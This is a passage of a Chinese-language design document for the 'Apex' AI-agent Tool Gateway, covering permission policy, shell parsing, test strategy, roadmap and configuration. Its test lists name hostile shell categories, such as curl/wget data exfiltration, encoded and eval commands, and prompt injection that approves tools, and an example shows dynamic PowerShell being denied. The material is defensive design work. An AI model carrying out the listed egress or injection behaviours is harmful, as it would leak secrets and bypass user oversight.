> ADR-0028（跨文档一致性审查）：本文原把 `claim release` 列为结果提交事务的一部分，而 Workspace 详细设计 §要求 claim 在 post snapshot + rules 之后释放。二者在"PostTool checker 后置"场景下会产生无写互斥保护的窗口。现以 Workspace 侧顺序为准。Fence 归属亦以 Workspace 侧为准：fence token 绑定 claim ownership term 并随 `claim_version` 递增，而非绑定 execution attempt。

---

## 29. 关键时序

### 29.1 自动允许的文件编辑



### 29.2 需要审批的 Shell



### 29.3 MCP 超时后状态未知



### 29.4 取消本地进程



---

## 30. 测试策略

### 30.1 Policy 单元测试

- hard deny 永远优先；
- missing capability 不能靠 approval 增加；
- untrusted/restricted/trusted；
- plan/ask/allow/bypass；
- deny/ask/allow rule 冲突；
- TTL、scope、risk ceiling；
- argument digest 变化；
- parent/child Agent；
- 多客户端 Decision CAS；
- Trust 撤销竞态。

### 30.2 Shell corpus

为 Bash、PowerShell、cmd 建立恶意和复杂 corpus：

- 管道/逻辑连接/子 shell；
- nested command substitution；
- eval/source/dynamic executable；
- here-doc/redirection；
- encoded command；
- variable/path expansion；
- quote/escape edge cases；
- Git arity 差异；
- curl/wget 数据外发；
- symbolic link 创建后写入；
- parser error 和超深 AST；
- Unicode/confusable executable。

每条测试验证解析树、Effect、Risk、Matcher 和 Approval Summary。

### 30.3 路径属性测试

- `..` traversal；
- Windows drive/UNC/device path；
- symlink/junction/reparse point；
- case folding；
- Unicode normalization；
- 不存在尾部；
- glob overlap；
- root replacement；
- TOCTOU；
- sensitive pattern；
- Project Root 外路径。

### 30.4 Adapter contract tests

每个 Adapter 必须通过统一套件：

- 不接受无 AuthorizationGrant；
- stale Fence 拒绝；
- started receipt；
- cancellation；
- bounded output；
- secret 不回显；
- idempotency/reconcile 声明真实；
- duplicate result；
- late result；
- partial success；
- malformed result。

### 30.5 MCP Fake

Fake Server 支持：

- schema 热变更；
- tool name collision；
- 断线重连；
- 收到请求后不返回；
- 重复结果；
- 注入式 description/result；
- 超大/二进制响应；
- secret 回显；
- 声称只读但报告写副作用；
- idempotency query。

### 30.6 故障注入

在以下点 crash：

1. Tool intent commit 前/后；
2. Permission decision 前/后；
3. Claim acquire 前/后；
4. pre snapshot 前/后；
5. execution outbox 前/后；
6. Adapter effect 前/后；
7. Started Receipt 前/后；
8. raw result 收到前/后；
9. result commit 前/后；
10. PostTool check 前/后；
11. claim release 前/后；
12. credential temp cleanup 前/后；
13. MCP reconnect；
14. cancellation propagation。

验收：不重复未知副作用、不泄露 secret、不双重决定、不遗留可写并发冲突。

### 30.7 安全测试

- Prompt injection 不能批准工具；
- MCP/Plugin 冒充 builtin；
- 审批摘要与实际 AST 不一致检测；
- Rule matcher 过宽提示；
- 参数批准后 TOCTOU；
- executable PATH 替换；
- secret 各种编码回显；
- bypass 仍受 hard deny；
- Project Trust root replacement；
- 权限 API Actor spoof；
- 审计导出脱敏。

### 30.8 性能目标建议

- 普通内置 Tool policy/normalization p95 < 20 ms（不含磁盘快照）；
- pending approval Query 为强一致且 p95 < 100 ms；
- Shell AST 分析对常见命令 p95 < 50 ms；
- output delta 不导致每 token/行 SQLite 事务；
- 10,000 条 PermissionRule 使用预编译 matcher/index，不线性扫描全部历史；
- 取消信号进入 Gateway 高优先级通道 p95 < 100 ms。

---

## 31. 实施路线

### Phase 1（v0.1）：内置 Tool 安全闭环

- Tool Registry/Revision；
- Read/Write/Edit/Glob/Grep/**Bash**/**Task**（需求文档 §5.1 规定的 MVP 工具全集）；
- **Bash 子命令 AST 分解、arity 归一与硬风险拦截**（Bash 进入 v0.1 则其分析器同属 v0.1，不可延后）；
- schema/path normalization；
- Capability/Trust；
- plan/ask/allow；
- PermissionRequest/Decision；
- **Write Claim 获取与释放**（薄实现即可：v0.1 单会话下冲突罕见，但接口、事件与 `INV-TG-007` 从第一天成立）；
- Operation Journal；
- pre/post snapshot；
- canonical ToolResult。

> ADR-0023 / ADR-0024（跨文档一致性审查）：原 Phase 1 缺 `Bash` 与 `Task`，与需求文档 §5.1 的 MVP 工具集不符——`Task` 是子 Agent 派生的唯一入口，缺失会使"规则违规 → 派生修复子任务"的闭环断裂。原五个 Phase 均未安排 Write Claim，而 §2 的 `INV-TG-007` 要求所有写操作先取 claim，二者互斥；现按 ADR-0024 将 Write Claim 提前到 v0.1。

### Phase 2（v0.3～v0.5）：Shell 扩展与 Process 强化

- PowerShell/direct-exec analyzer（Bash 已在 Phase 1）；
- 更完整的 semantic matcher/arity 规则库；
- Risk/Hard Policy 扩充；
- Process Supervisor；
- output/timeout/cancel；
- sensitive path/secret redaction。

### Phase 3：Rules、Hooks 与高级权限

- Pre/Post Tool Rules；
- PermissionRule revision/TTL；
- bypass 安全模式；
- Rule explanation/simulation；
- repair flow；
- Plugin/Hook capability sandbox。

### Phase 4：MCP 与外部操作

- discovery/config redaction；
- stdio/HTTP/SSE；
- schema revision；
- taint；
- reconnect/circuit breaker；
- idempotency/reconcile；
- Credential Broker。

### Phase 5：完整恢复与治理

- Recovery Center；
- compensation；
- policy analytics；
- organization/device policy（若需要）；
- remote worker execution envelope；
- policy formalization/fuzzing；
- 长期审计导出与保留策略。

---

## 32. ADR 摘要

### ADR-TG-001：所有副作用统一通过 Tool Gateway

防止 MCP、Skill、Plugin 或 Task 形成旁路。

### ADR-TG-002：权限基于规范化语义而非原始字符串

稳定支持 Shell 子命令、路径和“始终允许”规则。

### ADR-TG-003：硬拒绝不可覆盖

`bypass` 仍不是关闭安全内核。

### ADR-TG-004：批准固定 digest 和 policy snapshot

防止参数变化、TOCTOU 和多客户端旧批准。

### ADR-TG-005：Shell 按方言解析

Bash、PowerShell、cmd 语法不同，不能使用统一正则。

### ADR-TG-006：Adapter 不拥有授权状态

Adapter 只执行和观察，Core 决定状态。

### ADR-TG-007：ToolResult 默认 tainted

外部内容不能成为控制面权威。

### ADR-TG-008：结果未知显式阻断

安全性优先于自动重试成功率。

### ADR-TG-009：Secret 最后时刻注入

减少数据库、Prompt、日志和进程列表泄露。

### ADR-TG-010：PostTool violation 与 Tool 成功分离

副作用可能成功，但 Run/Node 必须等待修复或例外。

---

## 33. 配置示例

```toml
[permission]
mode = "ask"
bypass_ttl_minutes = 30
approval_default_ttl_minutes = 10
critical_requires_reauth = true
allow_project_wide_shell_rules = false

[risk]
hard_policy_revision = "builtin-2026-01"
sensitive_read = "high"
outside_root_write = "critical"
dynamic_shell = "critical"

[process]
default_timeout_seconds = 120
cancel_grace_seconds = 5
stdout_memory_bytes = 1048576
stderr_memory_bytes = 1048576
max_processes_per_tool = 32

[mcp]
default_timeout_seconds = 30
max_reconnect_attempts = 5
schema_change_requires_new_revision = true
external_content_tainted = true

[output]
ui_delta_bytes_per_second = 65536
blob_max_bytes = 104857600
secret_scan = true
```

项目配置只能收紧安全硬规则，不能提升自身 Trust、开启 bypass 或授予用户 Credential。

---

## 34. 实现审查清单

### Request/Policy

- [ ] 所有 Tool 来源统一注册和版本化；
- [ ] 参数先 canonicalize 再计算 digest；
- [ ] Capability、Trust、Hard Policy、Permission 分层清晰；
- [ ] bypass 不能覆盖 hard deny；
- [ ] Approval 固定 Actor、Tool、digest、path、risk 和 revisions；
- [ ] 多客户端 Decision 使用 CAS；
- [ ] permission wait 与 claim/resource wait 区分。

### Shell/Path

- [ ] Shell 方言明确；
- [ ] 所有 nested commands/redirections 被分析；
- [ ] 动态 executable/eval 提高风险；
- [ ] semantic matcher 不过度泛化；
- [ ] canonical path 防 traversal/symlink/root replacement；
- [ ] sensitive read 与 data egress 分离；
- [ ] 实际 changed paths 与 Claim 核对。

### Execution/Recovery

- [ ] 副作用前已提交 Operation intent；
- [ ] Adapter 验证 AuthorizationGrant 和 Fence；
- [ ] Process tree 可完整取消；
- [ ] 输出有界、脱敏、可追踪；
- [ ] unknown 不自动重试；
- [ ] compensation 是新 Operation；
- [ ] late result 不改变终态；
- [ ] Credential 临时资产可恢复清理。

### MCP/Hook/Security

- [ ] MCP config/token 分离；
- [ ] schema revision 固定；
- [ ] MCP result/description 标记 taint；
- [ ] Hook 不能授予权限或静默改参数；
- [ ] PostTool violation 阻断完成；
- [ ] ToolResult 不能进入控制面；
- [ ] 审计/Query 按 capability 脱敏。

---

## 35. 后续详细设计依赖

建议后续顺序：

1. **`Apex—— Context与Checkpoint系统详细设计.md`**  
   固化 Content Block、Prompt Assembly、Taint 传播、Context Budget、Compaction 和恢复格式。
2. **`Apex—— Workspace快照、Write Claim与隔离工作区详细设计.md`**  
   深化本文使用的路径算法、Snapshot、Patch、atomic write、Git/worktree 和恢复。
3. **`Apex—— Rules与Verification Gate详细设计.md`**  
   深化 Pre/Post Tool、Ruleset、Diagnostic、Exception 和 Repair Run。
4. **`Apex—— MCP、Skill、Hook与Plugin扩展系统详细设计.md`**  
   深化发现、Manifest、协议版本、Sandbox、热插拔和兼容生态。
5. **`Apex—— Credential与敏感数据治理详细设计.md`**  
   深化 OS Keychain、Provider data policy、secret lifecycle 和审计。

下一优先级建议为 **Context 与 Checkpoint 系统**，因为 ToolResult taint、ContentRef、Prompt Injection 防护和崩溃恢复都依赖统一的上下文数据模型。

---

## 附录 A：权限求值示例

### A.1 项目内单文件 Edit

```json
{
  "tool": "builtin__edit@3",
  "path": "src/auth.rs",
  "capabilities": ["project.write.v1"],
  "trust": "trusted",
  "mode": "allow",
  "matched_rule": "allow edit src/**",
  "risk": "MEDIUM",
  "decision": "ALLOW",
  "next": "ACQUIRE_WRITE_CLAIM"
}
```

### A.2 动态 PowerShell

```json
{
  "tool": "builtin__shell@2",
  "dialect": "powershell",
  "command_shape": "Invoke-Expression <dynamic>",
  "parser_confidence": "PARTIAL",
  "risk": "CRITICAL",
  "decision": "DENY_OR_EXPLICIT_ONE_TIME_APPROVAL",
  "rule_savable": false
}
```

### A.3 MCP 外发敏感内容

```json
{
  "tool": "mcp__issue_tracker__create_issue@7",
  "inputs": ["repository_content", "secret_adjacent"],
  "destination": "issue-tracker.example",
  "required": ["mcp.invoke.v1", "credential.use.v1", "data.egress.v1"],
  "decision": "ASK",
  "approval_summary": "将脱敏后的项目内容发送到远程 issue tracker"
}
```

## 附录 B：推荐错误码

```text
TOOL_NOT_FOUND
TOOL_REVISION_RETIRED
TOOL_SCHEMA_INVALID
TOOL_ARGUMENTS_TOO_LARGE
TOOL_ARGUMENT_DIGEST_MISMATCH
TOOL_STALE_AUTHORIZATION
TOOL_STALE_FENCE_TOKEN
TOOL_EXECUTION_ALREADY_ACTIVE
TOOL_RESULT_CONFLICT
TOOL_RECONCILIATION_REQUIRED

PERMISSION_REQUIRED
PERMISSION_DENIED
PERMISSION_HARD_DENIED
PERMISSION_ALREADY_DECIDED
PERMISSION_EXPIRED
PERMISSION_ARGUMENTS_CHANGED
PERMISSION_RULE_TOO_BROAD
PERMISSION_REAUTH_REQUIRED

CAPABILITY_MISSING
PROJECT_TRUST_REQUIRED
PROJECT_IDENTITY_CHANGED
SPEC_GATE_REQUIRED
WRITE_CLAIM_CONFLICT
WRITE_CLAIM_VIOLATION
WORKSPACE_BASELINE_CHANGED
PATH_OUTSIDE_PROJECT
PATH_SENSITIVE
PATH_TRAVERSAL

SHELL_DIALECT_REQUIRED
SHELL_PARSE_FAILED
SHELL_DYNAMIC_EXECUTION
SHELL_UNSUPPORTED_SYNTAX
EXECUTABLE_IDENTITY_CHANGED

MCP_SERVER_DISABLED
MCP_SCHEMA_CHANGED
MCP_CALL_TIMEOUT_UNKNOWN
MCP_RECONCILIATION_UNSUPPORTED

CREDENTIAL_NOT_AUTHORIZED
CREDENTIAL_DESTINATION_DENIED
CREDENTIAL_CLEANUP_REQUIRED
OUTPUT_SECRET_REDACTED
```

## 附录 C：AuthorizationGrant 示例

```json
{
  "authorization_grant_id": "grant_01...",
  "tool_call_id": "tc_01...",
  "tool_revision": "builtin__edit@3",
  "argument_digest": "sha256:...",
  "path_scopes": ["src/auth.rs"],
  "capability_snapshot": "caprev_42",
  "trust_revision": "trustrev_8",
  "permission": {
    "kind": "rule",
    "rule_id": "pr_01...",
    "rule_revision": 3
  },
  "risk": "MEDIUM",
  "policy_snapshot": "policy_01...",
  "expires_at": "2026-08-08T10:00:00Z"
}
```

---

**结论**：Apex 的 Tool Gateway 必须把“模型想调用工具”与“系统允许并已安全执行副作用”彻底分开。只有当每次调用都拥有规范化语义、稳定权限决定、硬规则、可验证路径、执行意图、Fence、结果对账和 taint 边界时，Apex 才能在提供高自动化能力的同时保持可解释、可恢复和可控。
